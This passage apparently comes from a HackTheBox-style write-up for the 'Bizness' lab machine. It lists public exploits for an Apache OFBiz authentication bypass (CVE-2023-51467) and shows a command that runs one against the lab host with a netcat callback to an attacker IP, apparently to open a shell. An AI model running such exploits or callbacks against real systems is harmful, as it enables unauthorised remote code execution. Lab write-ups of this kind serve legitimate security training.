 
### Weaponisation

#### CVE

* Resources
  * [https://github.com/Chocapikk/CVE-2023-51467](https://github.com/Chocapikk/CVE-2023-51467)
  * [https://github.com/hack-parthsharma/Ofbiz-Exploit](https://github.com/hack-parthsharma/Ofbiz-Exploit)
  * [https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass)
  * [https://www.vicarius.io/vsociety/posts/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467-exploit](https://www.vicarius.io/vsociety/posts/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467-exploit)

### Exploitation

*   **Using Exploit**

    * `git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git`
    * `cd Apache...`

    ```
    python3 exploit.py --url https://bizness.htb/ --cmd 'nc 10.10.14.3 4444'
    ```



<figure><img src=".gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### User flag
